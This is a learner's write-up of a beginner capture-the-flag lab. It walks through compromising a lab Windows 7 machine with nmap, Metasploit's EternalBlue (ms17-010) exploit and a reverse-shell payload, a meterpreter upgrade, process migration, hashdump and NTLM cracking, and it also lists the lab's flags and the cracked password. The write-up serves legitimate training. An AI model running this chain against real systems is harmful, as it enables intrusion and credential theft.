Recon
- scan and learn what exploit this machine is vulnerable to
- please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up
- this room is not meant to be a boot2root CTF, rather, this is an educational series for complete beginners
- professionals will likely get very little out of this room beyond basic practice as the process here is meant to be beginner-focused

Scan the machine. (If you are unsure how to tackle this, I recommend checking out the Nmap room)
- i ran a basic port scan to see whats open 
- nmap -sV -O 10.81.178.102



How many ports are open with a port number under 1000?
-3 

- to answer this question i did a more specific nmap scan with port range specification
- nmap -sV -O -p 1-1000 10.81.178.102

- there are a few ports we can see open
- 445 stands out and we can see that its running an old version of Windows (Windows 7)
- we can check for "low-hanging fruits" 
- open up msfconsole 
- we can use auxiliary/scanner/smb/smb_version as previously used to get some more information
- use auxiliary/scanner/smb/smb_version
- show options
- set the RHOSTS to the target IP addr
- run exploit command

- we can see that the host is running Windows 7 Professional SP1
- we can also see that its running SMB version 1 
- this older version of windows and SMB version can likely be a victim of eternalblue
- as there is an issue with SMBv1 

What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
- ms17-010 (eternalblue)

Gain Access

Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
- exploit/windows/smb/ms17_010_eternalblue

Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:
- set payload windows/x64/shell/reverse_tcp
With that done, run the exploit!

Show options and set the one required value. What is the name of this value? (All caps for submission)
- RHOSTS

- what we can do it search for eternalblue to get the module
- exploit/windows/smb/ms17_010_eternalblue 
- we can use exploit/windows/smb/ms17_010_eternalblue 
- as mentioned above we should set payload windows/x64/shell/reverse_tcp
- show options
- set the RHOSTS to the target IP addr
- we can then run exploit



Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 
- we backgrounded the session with CTRL+Z
- then did sessions to list the sessions and we can see it there



Escalate
- Escalate privileges, learn how to upgrade shells in metasploit.

If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 
- post/multi/manage/shell_to_meterpreter 

working out:
- from an online search for windows we can see we can use
- post/windows/manage/shell_to_meterpreter
- post/multi/manage/shell_to_meterpreter for multi-platform
- we use that along with the use command
- use post/multi/manage/shell_to_meterpreter

Select this (use MODULE_PATH). Show options, what option are we required to change?
- SESSION

working out:
- use the show options command to find out what options we need to change
- we need to set the SESSION param value



Set the required option, you may need to list all of the sessions to find your target here. 
- we do the command set SESSION 1
- 1 being the session number from when we previously checked the sessions

Run! If this doesn't work, try completing the exploit from the previous task once more.
- use the run command



Once the meterpreter shell conversion completes, select that session for use.



Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 



List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).
- 3044



Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 

Cracking
- Dump the non-default user's password and crack it!

Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 
- Jon

Copy this password hash to a file and research how to crack it. What is the cracked password?
- alqfna22

working out:
- used an online tool (crackstation)
- its an NTLM hash and the website provided us the plaintext password alqfna22
- we can also use John the Ripper to crack it using rockyou.txt



Find Flags!
- Find the three flags planted on this machine.
- These are not traditional flags, rather, they're meant to represent key locations within the Windows system.
- Use the hints provided below to complete this room!

Flag1? This flag can be found at the system root. 
- flag{access_the_machine}

working out: 
- based on its flag1 i initially did a search -f flag1.txt and it said its located in c:/
- i then went to c:/ and run the cat command on flag1.txt 
- i couldve also based on the question gone to the system root and ran ls command to find it also

- Flag2? This flag can be found at the location where passwords are stored within Windows.
(Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen.)

working out:
- a quick google search indicated where to find it on Windows
- cd C:/Windows/System32/config
- ls command
- we see the flag2.txt
- cat the flag2.txt



flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 
- flag{admin_documents_can_be_valuable}

